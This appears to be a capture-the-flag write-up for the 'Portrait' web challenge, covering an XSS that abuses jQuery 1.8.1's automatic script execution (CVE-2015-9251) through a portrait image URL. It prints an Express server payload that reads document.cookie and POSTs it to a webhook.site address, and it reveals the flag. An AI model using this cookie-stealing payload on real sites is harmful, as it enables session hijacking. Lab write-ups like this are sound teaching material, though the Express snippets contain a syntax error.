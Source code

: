 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.webp
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant. *Reporting a gallery will make the admin bot visit it.*

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, 1.7.2, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.png)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. The admin bot will only visit other pages on the Portrait website. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
  const username = new URLSearchParams(window.location.search).get("username");
  $.ajax({
      url: "/api/portraits/" + username,
      type: "GET",
      success: function (data) {
          data.forEach(portrait => {
              const newImage = $("#portraitsContainer").append(`
                  <div class="col-md-4 mb-4">
                      <div class="card shadow-sm">
                          <img src="${portrait.source}" class="card-img-top" alt="${portrait.name}">
                          <div class="card-body text-center">
                              <h5 class="card-title">${portrait.name}</h5>
                          </div>
                      </div>
                  </div>
              `);
              newImage.find("img").last().on("error", e => {
                  $.get(e.currentTarget.src).fail(response => {
                      if (response.status === 403) {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                      } else {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg");
                      }
                  })
              })
          });
      }
  });
  // ...
});
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used Cloudflared, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.png)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with Cloudflared and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.png)

Flag: `flag=squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
